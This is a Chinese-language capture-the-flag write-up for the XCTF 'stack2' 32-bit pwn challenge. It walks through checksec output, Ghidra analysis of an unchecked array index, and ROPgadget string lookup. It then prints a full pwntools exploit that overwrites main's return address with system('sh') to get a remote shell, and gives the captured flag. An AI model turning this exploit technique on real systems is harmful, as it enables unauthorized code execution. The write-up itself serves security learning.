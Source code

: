 # stack2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4bb2f552-6679-4d25-a18d-883e4d9c206b_2)

pwn是我最菜的领域之一。这道题题目是stack还让我觉得这题应该不难吧，没想到能这么折磨我这个萌新。

checksec检查一下程序。

-   Arch:     i386-32-little<br>RELRO:    Partial RELRO<br>Stack:    Canary found<br>NX:       NX enabled<br>PIE:      No PIE (0x8048000)

NX开了应该是要rop，栈溢出加上canary难道是要爆破canary值？放进ghidra里看看。

![main](../../images/inGhidra.png)

上半部分就是普通的变量赋值可打印开始菜单。下面四个while嵌套初看有点奇怪，后面简单分析一下就能看出来是用一种比较奇怪的方式实现了选择操作。

![main](../../images/inMain2.png)

剩下的部分就是实现功能了。既然这道题是说栈溢出，那先看看有scanf的地方：第33，38，49，54，71和74行。

- ### scanf
- > 从标准输入 stdin 读取格式化输入。
- 声明：int scanf(const char *format, ...)
- 参数：format -- 这是 C 字符串，包含了以下各项中的一个或多个：空格字符、非空格字符 和 format 说明符。
- format说明符格式：\[=%\[*][width][modifiers]type=]

就是从标准输入区stdin读取内容，以format的形式存储到format参数后的变量中。常见的栈溢出有可能出现在这里。&DAT_08048a97的值为%d，意思就是接收数字，鬼知道ghidra怎么解释成了这玩意。看一圈下来发现没有普通的缓冲区溢出，因为大部分scanf周围都有一个索引<100的判断，除了第71和74行。既然他俩这么特殊那就把突破点设在这了。

第71行的scanf将数据存放到countOfNumbers中（这个变量在最上面还有出现，用于记录有多少数字的，所以这里的命名可能有点不对），并在75行将countOfNumbers作为numbers数组的索引。相比于简单的栈溢出，这种形式会更难发现有一个任意地址写入。前面已经说过c语言中数组是不会索引越界的，只会按照数组当前地址一直往后推。我们的目标是用相对偏移把system函数写到main的返回地址。

至于这个偏移怎么找，你可以选择直接在ghidra或者ida里看，虽然直接看是不对的但是你可以每次往上加4位，一般偏差都不远。或者用更正确的方法，放到gdb里进行动态调试。记得用pwndbg或者peda等插件，直接用原版非常折磨人。这里我只有原版，所以就直接猜了。我在ghidra里看到numbers与返回地址的偏移是0x78，和ida不一样。

先把下面的payload写了。先在本机测试，这样才容易保证后面的内容完全正确，才能猜偏移（极其笨的萌新方法请勿学习）。题目其实给了一个后门函数hackme，但没法用，非常折磨；加上这道题不知道为啥很容易无限main循环，疯狂刷屏更搞心态了。

一般拿shell都是用/bin/sh的，这里突然来个/bin/bash可能有鬼。看了writeup后发现还真的有鬼，不能用。不过既然里面有system，直接自己调用system得了，32位传参也简单。

完整exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",60389)
def Write_Addr(offset,payload):
    proc.sendlineafter("5. exit",'3')
    proc.sendlineafter("which number to change:",str(offset))
    proc.sendlineafter("new number:",str(payload))
proc.sendlineafter("How many numbers you have:",'1')
proc.sendlineafter("Give me your numbers",'1')
Write_Addr(0x84, 0x50)
Write_Addr(0x85, 0x84)
Write_Addr(0x86, 0x04)
Write_Addr(0x87, 0x08)
Write_Addr(0x8c, 0x87)
Write_Addr(0x8d, 0x89)
Write_Addr(0x8e, 0x04)
Write_Addr(0x8f, 0x08)
proc.sendlineafter("5. exit",'5')
proc.interactive()
```

可以很容易在ghidra或者ida中找到system的地址：0x08048450。这里是小端所以要倒过来写。拿shell可以直接system("sh")，简单省力。sh也可以在内存中找到。

- ROPgadget --binary 3fb1a42837be485aae7d85d11fbc457b --string 'sh'
- > Strings information<br>============================================================<br>0x08048987 : sh<br>0x08048ab3 : sh

ROPgadget可以帮助寻找gadget。--binary指定文件，--string指定查找的字符串。这里就用上面那个了：0x08048987。因为是x86，所以函数参数在函数返回地址的上方。中间空了4个字节是为了伪造了一个x86平台下的函数调用(plt，返回地址，参数)。很多时候看起来没啥问题的payload却总是拿不到shell有可能就是这个原因（虽然其实我不太懂）

- ### Flag
- > cyberpeace{0240e66795b6c099e73711bb2292af63}